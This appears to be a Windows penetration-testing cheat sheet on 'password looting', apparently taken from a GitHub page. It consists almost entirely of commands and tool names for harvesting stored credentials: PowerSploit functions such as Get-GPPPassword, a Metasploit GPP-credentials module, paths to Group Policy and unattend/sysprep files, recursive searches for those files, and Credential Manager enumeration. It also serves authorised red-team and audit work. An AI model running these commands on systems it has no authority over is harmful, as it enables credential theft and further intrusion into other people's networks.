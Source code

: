 ## Password looting

### Tools

```bat
- Seatbelt.exe

- PowerSploit
Get-CachedGPPPassword //For locally stored GP Files
Get-GPPPassword //For GP Files stored in the DC
Get-UnattendedInstallFile
Get-Webconfig
Get-ApplicationHost
Get-SiteListPassword
Get-RegistryAutoLogon

- msf
post/windows/gather/credentials/gpp
```

### Group Policy Preferences

```bat
dir C:\ProgramData\Microsoft\Group Policy\History\<DOMAIN>\Machine\Preferences\Groups\Groups.xml
dir \\<DOMAIN>\SYSVOL\\Policies\<DOMAIN>\MACHINE\Preferences\Groups\Groups.xml

Services\Services.xml
ScheduledTasks\ScheduledTasks.xml
Printers\Printers.xml
Drives\Drives.xml
DataSources\DataSources.xml
```

### Unattended Install files

```bat
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattended.xml
C:\Windows\Panther\Unattend\Unattended.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\System32\Sysprep\unattend.xml 
C:\Windows\System32\Sysprep\Panther\unattend.xml

dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>nul
Get-Childitem –Path C:\ -Include *unattend*,*sysprep* -File -Recurse -ErrorAction SilentlyContinue | where {($_.Name -like "*.xml" -or $_.Name -like "*.txt" -or $_.Name -like "*.ini")}
```

### Credential manager

```bat
cmdkey /list
dir C:\Users\username\AppData\Local\Microsoft\Credentials\
dir C:\Users\username\AppData\Roaming\Microsoft\Credentials\

Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```
